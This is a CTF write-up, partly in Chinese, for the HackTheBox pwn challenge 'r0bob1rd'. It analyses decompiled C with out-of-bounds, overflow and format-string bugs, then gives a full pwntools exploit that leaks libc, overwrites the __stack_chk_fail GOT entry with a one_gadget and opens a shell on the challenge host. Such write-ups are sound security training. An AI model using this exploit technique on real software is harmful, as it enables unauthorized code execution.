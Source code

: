 ```yaml
---
title: "Write-ups: HackTheBox"
published: 2025-07-24
updated: 2025-07-24
description: "Write-ups for HackTheBox's pwn challenges."
image: "https://jsd.cdn.zzko.cn/gh/CuB3y0nd/picx-images-hosting@master/.2rvfoyyezu.avif"
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


# r0bob1rd

## Difficulty

- EASY

## Description

> I am developing a brand new game with robotic birds. Would you like to test my progress so far?

## Write-up

```c del={11-14, 18, 23}
unsigned __int64 operation()
{
  unsigned int v1; // [rsp+Ch] [rbp-74h] BYREF
  char s[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v3; // [rsp+78h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("\nSelect a R0bob1rd > ");
  fflush(stdout);
  __isoc99_scanf("%d", &v1);
  if ( v1 > 9 )
    printf("\nYou've chosen: %s", (const char *)&(&robobirdNames)[v1]);
  else
    printf("\nYou've chosen: %s", (&robobirdNames)[v1]);
  getchar();
  puts("\n\nEnter bird's little description");
  printf("> ");
  fgets(s, 106, stdin);
  puts("Crafting..");
  usleep(0x1E8480u);
  start_screen();
  puts("[Description]");
  printf(s);
  return __readfsqword(0x28u) ^ v3;
}
```

观察到 `operation` 函数存在几个漏洞：

- `if ( v1 > 9 )` 没有对 `v1` 做边界检查，OOB
- `fgets(s, 106, stdin);` BOF
- `printf(s);` 格式化字符串

先看看 `robobirdNames` 附近有什么东西：

```asm showLineNumbers=false ins={12-17}
pwndbg> x/a &robobirdNames
0x6020a0 <robobirdNames>: 0x400ce8
pwndbg> x/50gx 0x6020a0-0x100
0x601fa0: 0x0000000000000000 0x0000000000000000
0x601fb0: 0x0000000000000000 0x0000000000000000
0x601fc0: 0x0000000000000000 0x0000000000000000
0x601fd0: 0x0000000000000000 0x0000000000000000
0x601fe0: 0x0000000000000000 0x0000000000000000
0x601ff0: 0x00007ffff7c58f90 0x0000000000000000
0x602000: 0x0000000000601e10 0x00007ffff7e29190
0x602010: 0x00007ffff7c15df0 0x0000000000400766
0x602020 <puts@got.plt>: 0x00007ffff7cb9420 0x0000000000400786
0x602030 <printf@got.plt>: 0x00007ffff7c96c90 0x00007ffff7d17d90
0x602040 <fgets@got.plt>: 0x00000000004007b6 0x00000000004007c6
0x602050 <signal@got.plt>: 0x00007ffff7c77f00 0x00007ffff7cb7340
0x602060 <setvbuf@got.plt>: 0x00007ffff7cb9ce0 0x00007ffff7c980b0
0x602070 <usleep@got.plt>: 0x0000000000400816 0x0000000000000000
0x602080: 0x0000000000000000 0x0000000000000000
0x602090: 0x0000000000000000 0x0000000000000000
0x6020a0 <robobirdNames>: 0x0000000000400ce8 0x0000000000400cf2
0x6020b0 <robobirdNames+16>: 0x0000000000400cff 0x0000000000400d0c
0x6020c0 <robobirdNames+32>: 0x0000000000400d18 0x0000000000400d26
0x6020d0 <robobirdNames+48>: 0x0000000000400d30 0x0000000000400d40
0x6020e0 <robobirdNames+64>: 0x0000000000400d4b 0x0000000000400d5b
0x6020f0: 0x0000000000000000 0x0000000000000000
0x602100 <stdout@@GLIBC_2.2.5>: 0x00007ffff7e226a0 0x0000000000000000
0x602110 <stdin@@GLIBC_2.2.5>: 0x00007ffff7e21980 0x0000000000000000
0x602120 <stderr@@GLIBC_2.2.5>: 0x00007ffff7e225c0 0x0000000000000000
```

注意到这个地址下方不远处就是 `got` 表，因此我们可以通过输入负索引来泄漏它，然后算出 `libc` 基址。

所以最后思路应该是泄漏 `setvbuf`，计算出 one_gadget 的地址，再利用格式化字符串漏洞篡改 `__stack_chk_fail` 为 one_gadget 地址。而为了触发 `__stack_chk_fail`，我们需要利用 `fgets` 的 BOF 来破坏 canary.

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    context,
    fmtstr_payload,
    process,
    raw_input,
    remote,
    u64,
)

FILE = "./r0bob1rd"
HOST, PORT = "94.237.122.117", 56995

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary
libc = ELF("./glibc/libc.so.6")


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)
    return target


def main():
    target = launch()

    target.sendlineafter(b"> ", str(-8))
    target.recvuntil(b": ")

    setvbuf = u64(target.recvline().strip().ljust(0x8, b"\x00"))
    libc.address = setvbuf - libc.sym["setvbuf"]
    one_gadget = libc.address + 0xE3B01

    fmtstr = fmtstr_payload(
        8, {elf.got["__stack_chk_fail"]: one_gadget}, write_size="short"
    )
    # raw_input("DEBUG")
    target.sendlineafter(b"> ", fmtstr.ljust(106, b"\x00"))

    target.interactive()


if __name__ == "__main__":
    main()
```
